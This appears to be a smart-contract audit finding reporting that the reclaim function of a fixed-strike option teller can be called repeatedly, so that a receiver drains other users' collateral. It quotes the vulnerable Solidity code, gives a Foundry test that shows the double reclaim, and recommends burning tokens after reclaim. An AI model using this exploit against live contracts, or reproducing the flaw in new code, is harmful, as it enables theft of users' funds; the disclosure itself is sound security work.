 Jiamin

high

# Option Tokens should not be repeatedly used for reclaiming

## Summary

Option Tokens should not be repeatedly used for reclaim, user's funds will be lost otherwise.

## Vulnerability Detail

Option Tokens are ERC20 tokens that represent the right to buy (call) or sell (put) a fixed amount of an asset (payout token) for an amount of another asset (quote token) between two timestamps (eligible and expiry).

In order to create option tokens, an issuer must deploy the specific token configuration on the teller, and then provide collateral to the teller to mint option tokens. The collateral is required to guarantee that the option tokens can be exercised.

After Expiry, the Receiver can reclaim collateral from unexercised options, this is done through function [reclaim(FixedStrikeOptionToken optionToken_)](https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437):
```solidity
    function reclaim(FixedStrikeOptionToken optionToken_) external override nonReentrant {
        // Load option parameters
        (
            ERC20 payoutToken,
            ERC20 quoteToken,
            uint48 eligible,
            uint48 expiry,
            address receiver,
            bool call,
            uint256 strikePrice
        ) = optionToken_.getOptionParameters();


        // Retrieve the internally stored option token with this configuration
        // Reverts internally if token doesn't exist
        FixedStrikeOptionToken optionToken = getOptionToken(
            payoutToken,
            quoteToken,
            eligible,
            expiry,
            receiver,
            call,
            strikePrice
        );


        // Revert if token does not match stored token
        if (optionToken_ != optionToken) revert Teller_UnsupportedToken(address(optionToken_));


        // Revert if not expired
        if (uint48(block.timestamp) < expiry) revert Teller_NotExpired(expiry);


        // Revert if caller is not receiver
        if (msg.sender != receiver) revert Teller_NotAuthorized();


        // Transfer remaining collateral to receiver
        uint256 amount = optionToken.totalSupply();
        if (call) {
            payoutToken.safeTransfer(receiver, amount);
        } else {
            // Calculate amount of quote tokens equivalent to amount at strike price
            uint256 quoteAmount = amount.mulDiv(strikePrice, 10 ** payoutToken.decimals());
            quoteToken.safeTransfer(receiver, quoteAmount);
        }
    }
```

It is worth noting that there is no check on if Option Tokens have been used for reclaiming and receiver can reclaim even if he has already done so. Consider the following scenario:

1. Alice deploys on the teller, provides collateral and mints some Option Tokens;
2. Bob deploys on the teller, provides the same collateral and mints the same amount of Option Tokens;
3. Bob's Option Tokens expire and Bob calls to reclaim and gets collateral back;
4. Bob's Option Tokens are not removed, so Bob calls reclaim again, Alice's collateral is sent to Bob.

The same can be verified in below test case:
```solidity
function test_reclaim_2_times() public {
        uint256 amount = 100 * 10 ** abc.decimals();

        // Deploy call option token with receiver being Alice
        uint256 strikePrice = 5 * 10 ** def.decimals();
        FixedStrikeOptionToken aliceOptionToken = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            alice, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );

        // Mint option tokens as Alice
        vm.prank(alice);
        teller.create(aliceOptionToken, amount);

        // Deploy call option token with receiver being Bob
        FixedStrikeOptionToken bobOptionToken = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            bob, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );

        // Mint option tokens as Bob
        vm.prank(bob);
        teller.create(bobOptionToken, amount);

        // Warp forward past expiry
        vm.warp(block.timestamp + 9 days);

        uint256 bobPayoutStart = abc.balanceOf(bob);

        // Reclaim collateral 2 times as Bob
        vm.prank(bob);
        teller.reclaim(bobOptionToken);
        vm.prank(bob);
        teller.reclaim(bobOptionToken);

        // Bobs get twice amount of his provided collateral
        assertEq(abc.balanceOf(bob), bobPayoutStart + 200 * 10 ** abc.decimals());
    }
```

## Impact

Loss of funds for users that have provided collateral for Option Tokens.

## Code Snippet

## Tool used

Manual Review

## Recommendation

Consider removing or burning Option Tokens after collateral has being reclaimed.